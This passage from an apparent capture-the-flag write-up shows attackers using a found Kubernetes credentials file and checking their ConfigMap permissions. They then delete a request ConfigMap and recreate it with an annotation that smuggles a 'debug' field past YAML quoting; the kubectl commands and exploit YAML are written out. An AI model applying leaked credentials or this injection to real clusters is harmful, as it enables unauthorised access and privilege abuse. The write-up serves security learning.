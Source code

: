 This revealed an interesting file: `/mnt/kubecreds-jacob.config`, which contained Kubernetes credentials.

### 5. Using the Kubernetes Config

We used the discovered Kubernetes config to access the `sam-queue` namespace:

```bash
export KUBECONFIG=~/kubecreds-jacob.config
kubectl auth can-i --list --namespace=sam-queue
Resources                                       Non-Resource URLs   Resource Names   Verbs
configmaps                                      []                  []               [create delete]
```

We had permissions to **create** and **delete** `ConfigMaps`.

### 6. Exploiting ConfigMap Creation

The `app.py` file revealed how `ConfigMap` objects were created, and we discovered we could inject the `debug` parameter through the `sam-operator/project_quota` field.

We crafted an exploit:

1. First, we created a new request via the web application and read the `/status`

```json
{"name": "pokus", "quota": "1GB", "storage": "storage-hal-03", "txid": "c6405ee1561212446aadb86605e99228"}
{"access_token": "ZDQ5MTc5Zjc5OGU4YWM1ZDdiNTY0OTA5ZjhiOTM5YTQ1NWJmMDA4Yw==", "quota": "MUdC", "storage": "c3RvcmFnZS1oYWwtMDM="}
```

2. Next, we deleted the current `ConfigMap` using `kubectl`:

```bash
kubectl delete configmap request-c6405ee1561212446aadb86605e99228 -n sam-queue
```

3. Next, we created a new `ConfigMap` with the injected `debug` field:

**exploit.yaml**:

```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: request-c6405ee1561212446aadb86605e99228
  namespace: sam-queue
  annotations:
    sam-operator/project_name: name
    sam-operator/project_quota: |
      1GB"
        debug: "true
data:
  name: request-c6405ee1561212446aadb86605e99228
  quota: 1GB
```
